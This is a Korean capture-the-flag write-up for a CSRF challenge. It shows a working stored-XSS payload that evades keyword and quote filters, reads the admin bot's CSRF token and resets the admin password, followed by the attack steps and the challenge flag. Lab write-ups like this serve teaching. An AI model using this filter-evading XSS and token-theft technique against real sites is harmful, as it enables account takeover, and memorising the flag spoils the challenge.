

# 19. CSRF_02

## 문제 설명
게시판이 `render_safe=True`로 `<script>`를 실행하며, 신고 시 admin 봇이 글을 방문한다.
비밀번호 변경(`/changepw`)에는 CSRF 토큰이 있지만, XSS로 봇 세션에서 토큰을 실시간으로
읽어 재요청하면 무력화된다. 목표는 admin 비밀번호를 바꿔 로그인 후 `/board/0`의 flag를 읽는 것.

## 우회 아이디어
필터가 `fetch`·이벤트 핸들러·따옴표·`javascript:`·`data:` 등을 차단하므로,
`fetch`는 `` `fet`+`ch` ``로 분리하고 따옴표 대신 백틱을 쓴다.
CSRF 토큰은 XSS로 `/changepw` 응답에서 직접 추출해 우회한다.

## 익스플로잇

### 게시글 본문 페이로드
```html
<script type=module>
var f=self[`fet`+`ch`]
var r=await f(`/changepw`)
var t=await r.text()
var k=t.match(/value=.([0-9a-f]+)/)[1]
await f(`/changepw?userid=admin&userpw=ctf1234&csrf_token=${k}`)
</script>
```

### 공격 흐름
1. 위 페이로드를 본문에 넣어 글을 작성한다.
2. 그 글의 상세 URL을 `/report`에 신고한다.
3. admin 봇이 방문 → `/changepw`를 GET하여 봇 세션의 CSRF 토큰을 응답에서 추출.
4. 추출한 토큰을 붙여 재요청 → admin 비밀번호가 `ctf1234`로 변경된다.
5. `admin` / `ctf1234`로 로그인 후 `/board/0`에서 flag를 확인한다.



## 플래그
```
flag{cb3ba4a90250765ff635}
```
